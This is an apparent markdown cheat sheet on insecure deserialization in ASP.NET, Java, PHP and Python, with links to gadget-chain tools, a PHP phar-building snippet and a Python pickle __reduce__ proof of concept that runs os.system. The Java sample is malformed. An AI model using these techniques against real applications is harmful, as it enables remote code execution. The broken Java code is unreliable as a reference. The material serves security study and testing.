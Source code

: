 # Deserialization
- ASP.NET Deserialization

    > `ViewState`, `Session`, ... are highly possible to have serialize data
    > encrypted by `machine key` stored in `web.config`.

    - [ysoserial.net](https://github.com/pwntester/ysoserial.net)
- Java
    - Gadgets
        - CommonsCollections

    - Magic Method
        - toString
        - readObject

            ```java
            public class Cat implements Serializable {
                ...
                private vlid readObject(ObjectInputStream in) {
                    throws IOException, ClassNotFoundException {
                        ...
                    }
                }
            }
            ```

        - finalize
        - ...

    - [ysoserial](https://github.com/frohoff/ysoserial)

- PHP

    > Feature removed since PHP 8.0

    - Phar Format
        - stub
        - manifest (... serialized file meta-data, stored in serialize() format ...)
        - contents
        - signature (optional)
    - Magic Method
        - \_\_destruct()
        - \_\_wakeup()
        - \_\_call()
        - \_\_toString()
    - Phar Deserialization`phar://`

        | Trigger               |           |                |
        |:----------------------|:----------|:---------------|
        | file\_get\_contents() | include() | file\_exists() |
        | getimagesize()        | unlink()  | file()         |
        | fopen()               | is\_dir() | ...            |

        - Create phar file by `php --define phar.readonly=0 ${file}`

            ```php
            <?php
                class Cat {}
                $phar = new Phar("pharfile.phar");
                $phar->startBuffering();
                $phar->setStub("<?php __HALT_COMPILER(); ?>");
                $c = new Cat();
                $phar->setMetadata($c);
                $phar->addFromString("meow.txt", "owo");
                $phar->stopBuffering();
            ?>
            ```

    - [POP Chain](https://github.com/ambionics/phpggc)

- Python
    - Magic Method
        - \_\_reduce\_\_()
    - pickle

        > Stack-based virtual pickle machine

        ```python
        class Exploit(object):
            def __reduce__(self):
                return (os.system, ('id', ))

        serialized = pickle.dumps(Exploit())
        pickle.loads(serialized)
        #pickletools.dis(serialized)
        ```
